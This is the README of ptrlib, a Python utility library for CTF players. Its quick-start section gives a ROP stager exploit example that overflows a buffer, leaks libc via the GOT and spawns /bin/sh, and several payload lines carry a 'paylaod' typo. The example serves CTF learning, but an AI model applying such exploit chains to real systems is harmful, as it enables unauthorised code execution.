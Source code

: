 ptrlib
====

Python library which bundles security-related utilities.

## Description
Ptrlib is a Python library for CTF players.
It's designed to make it easy to write a complex program of cryptography, networking, exploit and so on.

## Requirement
Supports: Python 3.7
Library Dependency: gmpy2

Install GMP library by running
```
$ apt-get install libgmp-dev
```

## Usage
Basic examples are available at [/examples](https://bitbucket.org/ptr-yudai/ptrlib/src/master/examples/).

## Quick Document
There are many functions in ptrlib but let's see how to use it for pwn.
You can run executable or create socket like this:
```python
sock = Process("./pwn01")
sock = Process(["./pwn01", "--debug"])
sock = Socket("localhost", 1234)
```
If you have the target binary or libc, it's recommended to load the binary first.
```python
elf = ELF("./pwn01")
libc = ELF("./libc.so.6")
```
And you can use useful methods such as `got`, `plt`, `symbol`, `section` and so on.
The following is the pwn example of ROP stager.
```python
got_puts = elf.got("puts")
plt_puts = elf.plt("puts")
plt_gets = elf.plt("gets")
stage2 = elf.section(".bss") + 0x400

payload = b'A' * 0x108
payload += p64(rop_pop_rdi)
payload += p64(got_puts)
payload += p64(plt_puts)
payload += p64(rop_pop_rdi)
payload += p64(stage2)
payload += p64(plt_gets)
paylaod += p64(rop_pop_rbp)
paylaod += p64(stage2)
payload += p64(rop_leave_ret)
sock.sendlineafter("Data: ", payload)

libc_base = u64(sock.recvline()) - libc.symbol("puts")
logger.info("libc base = " + hex(libc_base))
payload = b'A' * 8
paylaod += p64(rop_pop_rdi)
payload += p64(libc_base + next(libc.find("/bin/sh")))
payload += p64(libc_base + libc.symbol("system"))
sock.sendline(payload)

sock.interactive()
```

## Install
Run `pip install ptrlib` or `python setup.py install`.

## Licence

[MIT](https://github.com/tcnksm/tool/blob/master/LICENCE)

## Author

[ptr-yudai](https://github.com/ptr-yudai)
